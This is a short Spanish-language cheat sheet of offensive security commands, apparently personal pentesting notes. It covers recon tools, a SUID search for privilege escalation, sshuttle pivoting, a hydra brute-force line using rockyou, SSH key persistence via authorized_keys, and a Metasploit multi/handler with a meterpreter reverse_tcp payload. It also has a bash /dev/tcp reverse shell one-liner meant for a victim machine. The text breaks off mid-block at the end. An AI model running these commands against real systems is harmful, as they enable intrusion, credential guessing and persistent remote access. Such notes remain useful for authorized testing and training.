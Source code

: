```
theHarvester nos ayuda a encontrar data leakeada, así mismo con have i been pwned nos ayudará a ver si hay contraseñas para esos correos leakeados.

La herramienta dnsrecon y dnsenum nos ayuda a enumerar servidores DNS para un dominio que especifiquemos.

La herramienta Responder nos ayuda a ver el smbrelay hash de autenticación 

Permisos root
```
find / -perm -4000 2>/dev/null
```

Pivot
```
sshuttle -r usuario@ip 0.0.0.0/24
```

Fuerza bruta
```
hydra -l usuario -P wordlist rockyou recomendable protocolo://ip
```

SSH sin passwd de user
```
cp id_rsa.pub authorized_keys
```


METASPLOIT PIVOTING

```
msfconsole

search /multi/handler

use /multi/handler

show options

set LHOST ip atacante

set PAYLOAD linux/x86/meterpreter/reverse_tcp #esto fija un meterpreter

run
```

En la máquina victima:

```
bash -i >& /dev/tcp/<ip>/<puerto> 0>&1
```

En metasploit> ```ipconfig```

```
control + z 
2
